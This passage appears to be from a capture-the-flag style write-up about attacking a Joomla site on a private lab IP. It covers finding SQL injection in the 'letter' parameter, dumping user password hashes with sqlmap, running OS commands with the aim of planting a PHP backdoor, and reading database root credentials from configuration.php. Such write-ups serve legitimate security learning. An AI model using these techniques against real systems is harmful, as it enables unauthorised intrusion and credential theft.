 
# Exploit 

I visited those directories but there was nothing interesting. The administrator one contained a message stating that I am not the real administrator. So I went back to testing for SQLi in the login page and in the URL parameters. In particular, I was interested by the *Itemid* parameter. When I tampered with it, I got messages that I need to login to view that area of the site. I used sqlmap but no vulnerability found. Seeing so many parameters in the URL, I decided to test each one of them by visiting every page and trying a single quote in every parameter. And the jackpot was found at the <code>letter</code> parameter in the List contents page:

``` plain
http://192.168.80.166:666/index.php?option=com_abc&view=abc&letter=%27&Itemid=3


Error 1064: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' GROUP BY title ORDER BY title' at line 1 SQL=SELECT id, title FROM jos_content WHERE state = 1 AND UPPER(title) LIKE ''%' GROUP BY title ORDER BY title
'
```

With this information, I pointed sqlmap to the vulnerable parameter and retrieved the jos_users table of the joomla database, where among others, there were usernames and password hashes

``` plain
username	usertype	password
Administrator	Super Administrator	08f43b7f40fb0d56f6a8fb0271ec4710:n9RMVci9nqTUog3GjVTNP7IuOrPayqAl
JSmith	Registered	992396d7fc19fd76393f359cb294e300:70NFLkBrApLamH9VNGjlViJLlJsB60KF
BTallor	Registered	abe1ae513c16f2a021329cc109071705:FdOrWkL8oMGl1Tju0aT7ReFsOwIMKliy
hacky	Registered	19630caea014ce1746ec41b074973c04:LSGCiJLhUyxZRLOMAcy96PTmbN8nnxIL
```

Well, these hashes won't help much, as a quick search didn't give me any way to crack them fast and easy. I did research a bit on the internet and found out that these are salted hashes, stored in the format <code>md5 hash:salt</code>. I also found there is a Perl script that can help with cracking such hashes, called [joomlacrack.pl](http://morxploit.com/joomlacrack.txt). But I thought I might not need to crack them if I could use sqlmap to execute commands on the server and write a PHP backdoor there. So that's what I tried next. Passing *pwd* to *--os-cmd* gave me the location of the current directory, which is /var/www. I tried writing a shell directly in this location but I failed. So next I listed the contents of the present directory and noticed a *configuration.php* file that I read, and inside there were credentials for the database:

``` plain
/* Database Settings */
var $dbtype = 'mysql';
var $host = 'localhost';
var $user = 'root';
var $password = 'yUtJklM97W';
var $db = 'joomla';
var $dbprefix = 'jos_';
```
